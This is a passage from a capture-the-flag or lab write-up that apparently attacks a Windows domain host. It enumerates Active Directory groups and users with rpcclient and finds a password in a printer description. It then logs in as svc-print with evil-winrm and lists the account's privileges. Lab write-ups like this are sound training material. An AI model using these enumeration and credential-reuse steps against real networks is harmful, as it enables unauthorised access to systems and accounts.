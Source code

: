```
group:[Protected Users] rid:[0x20d]                       
group:[Key Admins] rid:[0x20e]                            
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x44e]
group:[IT_Accounts] rid:[0x644]       
```

IT_Accounts looks interesting, so we'll dig into that:

```
rpcclient $> querygroupmem 0x644
        rid:[0x450] attr:[0x7]
        rid:[0x641] attr:[0x7]
...
rpcclient $> queryuser 0x450                              
        User Name   :   svc-print
...
rpcclient $> queryuser 0x641                              
        User Name   :   sthompson
```

Now that we have two users that we're most likely meant to go for, we'll see what we can find out about the printer on the website, since it had a file printed with a password in the name:

```
rpcclient $> getprinter HP-MFT01                                                                                                                                                                                                          
        flags:[0x800000]
        name:[\\10.10.10.193\HP-MFT01]
        description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
        comment:[]
```

Nice, looks like we have a password in the description!

**$fab@s3Rv1ce$1**

Since it looks like a printer password, we'll try logging into svc-print using evil-winrm:

```
$ evil-winrm -u svc-print -p '$fab@s3Rv1ce$1' -i 10.10.10.193
...
*Evil-WinRM* PS C:\Users\svc-print\Documents> 
```

## Internal Enumeration

From here, we can check our privileges:

```
$ whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```
